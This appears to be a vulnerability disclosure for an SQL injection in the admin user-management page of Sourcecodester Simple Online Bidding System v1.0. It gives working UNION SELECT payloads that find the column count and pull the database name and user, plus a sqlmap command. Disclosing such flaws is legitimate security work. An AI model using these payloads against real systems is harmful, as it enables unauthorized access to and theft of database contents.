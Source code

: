 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=manage_user&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515151923449](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Online Bidding System Sql Inject-3.assets/image-20240515151923449.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=manage_user&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515152128385](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Online Bidding System Sql Inject-3.assets/image-20240515152128385.png)

Then you can select 2 and 3 as the echo positions, modify the payload to query the database name and current database user name.

```
page=manage_user&id=-2+union+select+1,database(),user(),4,5,6,7,8,9%23
```

![image-20240515152214240](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Online Bidding System Sql Inject-3.assets/image-20240515152214240.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=manage_user&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515161603191](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester Simple Online Bidding System Sql Inject-3.assets/image-20240515161603191.png)
